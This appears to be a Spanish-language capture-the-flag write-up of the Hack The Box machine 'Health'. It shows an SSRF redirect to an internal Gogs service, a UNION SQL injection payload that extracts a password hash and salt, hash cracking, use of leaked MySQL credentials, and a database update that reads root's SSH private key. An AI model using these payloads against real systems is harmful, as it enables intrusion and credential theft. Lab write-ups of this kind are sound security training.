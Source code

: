 ```yaml
---
layout: post
title: "Write Up Health. "
subtitle: "Starting-Point"
category: Blog
tags: [Medium,Chunin,Linux,HTB,SQLi,Hashes,Cracking,CronJob,PHP,SSRF,CVE,Web,Vulnerability-Assessment,Database,Injection,Source-Code-Analysis,Outdated-Software,MySQL,Laravel,Gogs,SQLite,PHP,Exploit-Modification,Password-Reuse,Password-Cracking,Scheduled-Job-Abuse,Arbitrary-File-Read,Clear-Text-Credentials,SSRF,Information-Disclosure,eWPT,eWPTxv2,OSWE,OSCP] 
image:
  path: /assets/img/health/Captura%20de%20pantalla%20(187).png
---
```


***
<!--more-->

1. this ordered seed list will be replaced by the toc
{:toc}

***

## Reconnaissance


### nmap


```bash
nmap -p- --open --min-rate 5000 -n -vvv -Pn 10.10.11.176 -oA allports -Pn
```


![list](/assets/img/health/AWESOMW-2023-01-12-10-59-52.png){:.lead width="800" height="100" loading="lazy"}


### Services and Versions


```bash
nmap -p22,80 -sV -sC 10.10.11.176 -oN target
```
![list](/assets/img/health/AWESOMW-2023-01-12-11-02-27.png){:.lead width="800" height="100" loading="lazy"}


***

## Vulnerability Analysis


### HTTP TCP-80


Uso de Investigacion web, Google Hacking,Google Dorks y recopilación de información gracias a servicios de terceros e ispeccionamos la web enumerando las tecnologias de la ip ataves de la terminal o via  web esto lo hacemos con wapalizzer o whatweb.


Whatweb identificar tecnologuias atraves del terminal o wappalizer atraves de la web.


![list](/assets/img/health/AWESOMW-2023-01-12-11-02-55.png){:.lead width="800" height="100" loading="lazy"}


{:.note}
Logramos encontrar el dominio health.htb que agregaremos al `/etc/hosts`. 



Inspecionamos la web y tiene montado un servicio que te permite monitorear si un servicio esta activo o no, por lo que en el primer campo ponemos un host-payload con unpuerto cualquiera , en el segundo nuestra host y como intervalo 5 absteriscos.


![list](/assets/img/health/AWESOMW-2023-01-12-11-21-37.png){:.lead width="800" height="100" loading="lazy"}


En este punto lo que podemos hacer es algunas pruebas como crearnos un index.html con hola adentro y montarnos un servidor web con python para probar que pasa.


![list](/assets/img/health/AWESOMW-2023-01-12-11-24-03.png){:.lead width="800" height="100" loading="lazy"}


{:.note}
Nos ponemos ala escucha por los dos cpuetos con netcat en el 80 y el 6464, al 80 hace una peticion html pero para el 6464 hace una peticion de data.


![list](/assets/img/health/AWESOMW-2023-01-12-12-02-17.png){:.lead width="800" height="100" loading="lazy"}


{:.note}
Nos devuelve un output en json con el hola que pusimo en el `index.html`.


Con esto podemos tratar de explotar un SSRF pero antes vamos a provar si la maquina victima tiene puertos internos abiertos que antes con nmap no pudimos ver, pero no logramos nada.


{:.note}
Levantamos nuestro servidor en el puwerto 80 asi como nuertro netcat en el puerto 4646.


Con esto conseguimos la web que contiene el puerto 3000 y vemos que es una utilidad llamada gogs y la buscamos en internet o searchsploit y vemos que hay un exploit que nos vamos a decargar para usarlo.


Por otra parte vamos ahcer lo mismo pero en cambio com un index.php que nos imprima  el header del puerto 3000 de la victima de la siguiente forma.


```bash
<?php
    header("Location: http://health.htb:3000");
?>
```

{:.note}
Esto es para burlar los filtros y en el puerto 4646 nod debuelve un json con el contenido del localhost por el pueto 3000  que vamos a meter en un archivo llmadao dat.


![list](/assets/img/health/AWESOMW-2023-01-12-12-49-38.png){:.lead width="800" height="100" loading="lazy"}


Pero si nos montamos ub servidor hhtp con `python3 http.server 80` y podemos ver si lo abrimos que tecnologia esta en el pueto 3000 de lamaquina victima solo que en nuestra maquina.


![list](/assets/img/health/AWESOMW-2023-01-12-12-52-16.png){:.lead width="800" height="100" loading="lazy"}


{:.note}
Buscamos la vulnerabilidad gogs con searchsploit.


Ya en este punto abrimos el burpsuite he interceptamos la peticion enla ruta que no dijo la vulneravilidad gogs, en resumen lo que estamo haciendo es una query de injeccion de SQL solamente que esta modificada para que los espacios por `url encode` no lo le gusta pero otra forma es `/**/` y aparte tambien agrgar `||':'||` para cada separacion. 


![list](/assets/img/health/AWESOMW-2023-01-12-13-28-44.png){:.lead width="800" height="100" loading="lazy"}


{:.note}
Usamos el burpsuite y en vez de de usar la ruta `/proces` usamos la ruta `/users`.


```burp
')/**/union/**/all/**/select/**/1,2,(select/**/salt/**/from/**/user),3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24,25,26,27--
```


{:.note}
Debemos esta con netcat a la escucha en el puerto `nc -lnvp 4646` para que nos devuelva el output y com `python3 http.server 80` carge el index.php con la injeccion SQL un hash que deberemos desencriptar.


Con el hash lo guadamos en unarchivo llamado data2 porque debemos reacomodarlo porque esta en hexadecimal y nosotros lo nesesitamos en base64 por lo que debemos aplicarle un tratamiento.


![list](/assets/img/health/AWESOMW-2023-01-12-13-41-13.png){:.lead width="800" height="100" loading="lazy"}


{:.note}
El tratamiento seria `echo "<hash>" | xxd -ps -r` es nos dara una cadena que no es legible y a esa le hacemos  `echo "<cadena no legible>" | base64 -p`.


{:.note title="Attention"}
La injeccion SQL tambien nbos da el salt que es un  fragemto del hash qu esta separado por dos punto tambien  le aplicamos `echo -n "<salt>" | base64 -p` le metemos el menos n porque sino no se representaria bien el decode porque tomaria en cuenta el salto de linea tambien, cambiamos el root por sha.265:agregamos el 1000 + salt + el hash esto sera el nuevo hash.



![list](/assets/img/health/AWESOMW-2023-01-12-16-16-51.png){:.lead width="800" height="100" loading="lazy"}


{:.note}
Lo crackeamos con john y nos da la contraseña `february15` que usaremos para conectarnos por SSH.



```bash
ssh susanne@10.10.11.176
```


![list](/assets/img/health/AWESOMW-2023-01-12-16-18-20.png){:.lead width="800" height="100" loading="lazy"}


{:.note}
La flag del usuario  de bajos privileguios esta en el escritorio del usuario `susanne`.


***

## Explotion


Siempre es bueno ejecutar `LimEnum` Y `pspy` para monitorizar y ver los posibles vectores para escalar de privilegios, ademas hasta que se ejecute los anteriores podemos buscar los permisos con el comado find con el siguite comando.


![list](/assets/img/health/AWESOMW-2023-01-12-16-30-34.png){:.lead width="800" height="100" loading="lazy"}


Despues de husmear un buen rato y meterme en algunos directorios di con un HealthChecker.php  y definimos un nuevo webhook apuntando a el primero en puerto 4646 y el  el otro con python en el puerto 80 como hemos venido haciendo todo el rato y le damos a crear.
Nos conectamos a mysql y deberemos de se rrapido para injectarle en una columna ya sea el permiso SUID o nos enrtablamos una resese shell.


```bash
mysql -Dlaravel -ularavel -pMYsql_strongestpass@2014+
```


{:.note}
De antes en un archivo de configuración en /var/www/html podemos encontrar credenciales de mysql.


```bash
update tasks set monitoredUrl='file:///root/.ssh/id_rsa';
```


{:.note}
Al darle forma cambiando \n por salto de linea y quitando \ nos queda la id_rsa de root.


![list](/assets/img/health/AWESOMW-2023-01-12-17-00-39.png){:.lead width="800" height="100" loading="lazy"}


{:.note}
Le damos permisos  600 y nos conectamos con SSH A root.


![list](/assets/img/health/AWESOMW-2023-01-12-17-02-06.png){:.lead width="800" height="100" loading="lazy"}


{:.note}
Ya lo ultimo es buscar la flag de superusuario en el escritorio de root.


***

```shell
🎉 Felicitaciones ya has comprometido Health de HackTheBox 🎉
```
{:.centered}
***

Back to [Certification eWPT](){:.heading.flip-title}
{:.read-more}

***
Back to [Certification eWPTv2](){:.heading.flip-title}
{:.read-more}

***
Back to [Certification OSWE](){:.heading.flip-title}
{:.read-more}

***
Back to [Certification OSCP](){:.heading.flip-title}
{:.read-more}

